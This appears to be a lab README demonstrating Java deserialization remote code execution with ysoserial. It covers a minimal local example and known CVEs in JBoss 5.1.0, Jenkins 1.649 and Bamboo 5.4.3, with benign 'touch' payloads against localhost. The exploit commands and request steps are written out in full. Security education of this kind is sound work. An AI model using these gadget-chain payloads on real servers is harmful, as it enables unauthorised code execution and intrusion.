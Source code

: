 Here there are 3 practical example (PoC) of the vulnerability when deserializing objects from untrusted sources.

Minimal Example
---------------------------------
- Use java 8
- cd MinimalExample
- java -jar ../ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections6 "/tmp/exploit.sh">payload.ser 
- cp ./exploit.sh /tmp
- chmod +x /tmp/exploit.sh
- javac Employee.java
- javac DeSerializingObject.java
- java -classpath .:apache-collections-commons-collections-3.1.jar DeSerializingObject 
- You will find a file "pwned" in /tmp. This means that the attack has been completed correctly with a RCE.

JBOSS (CVE)
---------------------------------


- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Check if you have installed the JDK 1.8
- Run jboss: java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"


References:



Jenkins (CVE-2015-8103)
---------------------------------

- Download a vulnerable version of Jenkins (in this case you can find the v1.649
- Check if you have installed the JDK 1.8
- java -jar ./jenkins-war-1.649.war
- java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"

References:



Bamboo (CVE-2015-6576)
---------------------------------

- Download and install openjdk 1.7
	sudo add-apt-repository ppa:openjdk-r/ppa  
	sudo apt-get update   
	sudo apt-get install openjdk-7-jdk  
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
	java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser 
  or use the payload inside the folder JBoss



References:
https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478
https://askubuntu.com/questions/761127/how-do-i-install-openjdk-7-on-ubuntu-16-04-or-higher
